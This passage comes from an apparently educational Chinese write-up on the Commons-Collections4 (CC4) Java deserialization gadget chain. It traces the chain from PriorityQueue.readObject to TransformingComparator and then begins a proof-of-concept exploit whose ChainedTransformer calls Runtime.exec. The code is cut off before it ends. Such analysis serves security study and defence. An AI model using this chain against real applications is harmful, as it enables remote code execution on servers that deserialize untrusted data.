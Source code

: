 ![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640140375721-4b9cd174-c882-4e01-b598-5c62a295dc0f.png)

并且 TransformingComparator.compare 方法调用了 transform 方法。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640140361824-34354536-64c2-44b4-8f18-91566cdb7bb0.png)

this.transformer 是在构造函数中赋值的。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640140416982-6bb84568-9939-483d-97bc-224c5612535c.png)

compare 这个方法很通用，因此可以在很多地方找到同名函数，CC4 在 PriorityQueue 优先队列中找到了 compare 方法的调用。

PriorityQueue.siftDownUsingComparator 对 compare 进行了调用。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640140524907-564d94ef-a2c9-41b8-a00b-cc6613b03bf5.png)

继续往上寻找到 siftDown 方法，仍旧是一个 private 方法。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640140613765-ccd848a3-8c05-4ff7-b63e-e40879f3982b.png)

再次 find Usage，在 heapify 中找到调用。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640140666663-3d2576d1-bf60-4754-8974-adadc1147389.png)

heapify 在 PriorityQueue.readObject 中调用。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640140717119-6ce06a08-b5f3-452d-91f3-1466b43b42f2.png)

至此，这一条利用链已经完备了，流程图如下：

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640140994164-a55942ff-0cb8-43f6-9302-e81104ebff53.png)

下面编写 exp：

将 PriorityQueue 的 comparator 赋值为 transformingComparator，transformingComparator 中的 transformer 赋值为 chainedTransformer。另外，在 Commons-collections4 中，ChainedTransformer 接收变长数组。因此可以不用提前声明 Transformer 数组了。

```java
public class CC4 {
    public static void main(String[] args) throws Exception{
        TestTransformingComparator();
        unserialize("abc.ser.bin");
    }
	public static void TestTransformingComparator() throws Exception{
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new ConstantTransformer(
                        Runtime.class
                ),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",null}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                ));
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer, null);
        PriorityQueue priorityQueue = new PriorityQueue();

```